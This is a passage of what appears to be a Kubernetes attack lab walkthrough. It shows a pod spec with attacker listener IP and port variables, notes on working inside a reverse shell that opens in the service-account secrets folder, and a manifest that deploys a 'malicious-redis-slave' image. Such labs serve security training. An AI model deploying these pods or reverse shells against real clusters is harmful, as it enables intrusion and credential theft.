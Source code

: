 ```commandline
              },
              {
                "name": "LISTENER_IP",
                "value": "SERVERIP-HERE"
              },
              {
                "name": "LISTENER_PORT",
                "value": "9090"
              }
            ]
        }]
    }
}
EOF
```

* In the reverse shell, if the `pwd` is `/run/secrets/kubernetes.io/serviceaccount` you will have to navigate to the `tmp` directory. 

```commandline
cd /tmp
```

### *root user of the pod will not have permission to create/edit files in `/run/secrets/kubernetes.io/serviceaccount`*

---

#### Step 9:

* Copy the edited JSON from the previous step and paste it in `/tmp` directory.

**EXAMPLE**:

> **NOTE**: Copy the JSON value you edited, don't copy the one below

```commandline
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              ... 
              ...
              ...
              ...
              }
            ]
        }]
    }
}
EOF
```
